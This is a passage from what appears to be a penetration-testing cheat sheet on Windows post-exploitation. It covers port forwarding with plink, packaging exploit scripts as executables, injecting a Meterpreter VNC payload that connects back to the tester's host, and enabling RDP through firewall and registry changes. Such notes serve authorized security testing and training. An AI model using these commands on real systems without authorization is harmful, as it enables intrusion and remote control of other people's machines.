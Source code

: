   See also: [Services only available from inside network](internal_services.md) - internal_services.md

### Local port forward (from Win to Kali):
  ```
  > plink mysession -L 5110:popserver.example.com:110
  ```


## Python

* To create **exe** from python file:
  ```
  c:> pip install pyinstaller

  c:> pyinstaller myscript.py

  c:> python pyinstaller.py --onefile ms11-080.py
  ```
  See also: [PyInstaller](https://pyinstaller.readthedocs.io/en/stable/)

* On Kali
  - install pyinstaller of windows with wine on Kali and then
  ```
  # wine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile 18176.py
  ```

## Getting GUI

* Using meterpreter, inject vnc session
  ```
  # run post/windows/manage/payload_inject payload=windows/vncinject/reverse_tcp lhost=<yourip> options=viewonly=false
  ```

* Enable RDP
  - Commandline
  ```
  c:> netsh firewall set service RemoteDesktop enable
  ```
  - Registry
  ```
  c:> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
  c:> reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
  ```
  - Commandline
  ```
  c:> sc config TermService start= auto
  c:> net start Termservice
  c:> netsh.exe
  c:> firewall add portopening TCP 3389 "Remote Desktop"
  ```
